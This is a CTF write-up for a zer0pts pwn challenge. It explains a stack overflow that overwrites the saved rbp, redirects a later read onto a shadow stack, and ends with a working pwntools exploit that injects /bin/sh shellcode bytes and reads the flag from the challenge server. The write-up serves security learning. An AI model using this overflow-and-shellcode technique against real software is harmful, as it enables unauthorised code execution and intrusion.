 Along with the explanation about how the shadowed stack works, the vulnerability is clearly outlined in the source:

```asm
vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret
```

Only `0x100` bytes are allocated for the stack frame, so writing more than that will overwrite `rbp` on the stack (popped during `leave`).

`rbp` is used to set up `buf` in `notvuln` after calling `vuln`:

```asm
notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]          ; buffer location
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret
```

This allows the location of the buffer to be read into to be manipulated. This can be used to overwrite the shadow stack so that execution returns to shellcode:

```python3
from pwn import *

#r = process("./chall")
r = remote("pwn.ctf.zer0pts.com", 9011)

# shadow stack base address
retBase = 0x600234

r.recvuntil(": ")
# overwrite rbp to be retBase + 0x100
r.sendline(b"A" * 0x100 + p64(retBase + 0x100))

r.recvuntil(": ")
#gdb.attach(r)

p = b""
p += p64(0) # first return address (unused)
p += p64(retBase + 16) # second return address (jump)

# shellcode
# https://www.exploit-db.com/exploits/47008
p += b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
r.sendline(p)

# interactive shell
#r.interactive()

r.sendline("cat flag*")
print(r.recvline().decode().strip())
# zer0pts{1nt3rm3d14t3_pwn3r5_l1k3_2_0v3rwr1t3_s4v3d_RBP}
```
